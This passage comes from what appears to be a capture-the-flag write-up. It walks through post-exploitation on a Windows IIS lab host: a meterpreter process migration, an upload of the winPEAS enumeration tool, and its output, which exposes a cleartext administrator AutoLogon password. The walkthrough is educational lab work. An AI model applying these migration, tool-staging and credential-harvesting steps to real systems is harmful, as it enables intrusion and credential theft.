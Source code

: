 ```
 1488  1372  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
 1548  1388  WScheduler.exe                                         
 1652  672   Ec2Config.exe                                          
 1740  740   WmiPrvSE.exe                                           
 1988  672   msdtc.exe                                              
 2412  1200  WScheduler.exe                                         
 2588  904   taskhostex.exe                                         
 2664  2656  explorer.exe                                           
 2792  1488  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 3064  2612  ServerManager.exe                                      

meterpreter > migrate 1488
[*] Migrating from 1460 to 1488...
[*] Migration completed successfully.
```

### Local Enumeration
Now that I had a achieved slightly stabler shell, I decided to start poking around the machine for a better escalation. I began this by using the new meterpreter shell to upload a copy of `winPEAS` to see if anything major stood out to me on the host.

I've truncated some of the `winPEAS` output for brevity.

```
meterpreter > upload /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/Release/
Dotfuscated         de                  fr                  pl                  winPEAS.exe.config  zh-CN               
Dotfuscator1.xml    es                  it                  ru                  winPEAS.pdb         
meterpreter > upload /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/Releasex64/Release/winPEAS.exe
[*] uploading  : /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
[*] Uploaded 461.00 KiB of 461.00 KiB (100.0%): /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
[*] uploaded   : /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
meterpreter > shell
Process 352 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\temp>.\winPEAS.exe
...
  [+] Home folders found
    C:\Users\.NET v4.5
    C:\Users\.NET v4.5 Classic
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\jeff
    C:\Users\Public : Service [WriteData/CreateFiles]

  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
...
  [+] Installed Applications --Via Program Files/Uninstall registry--
```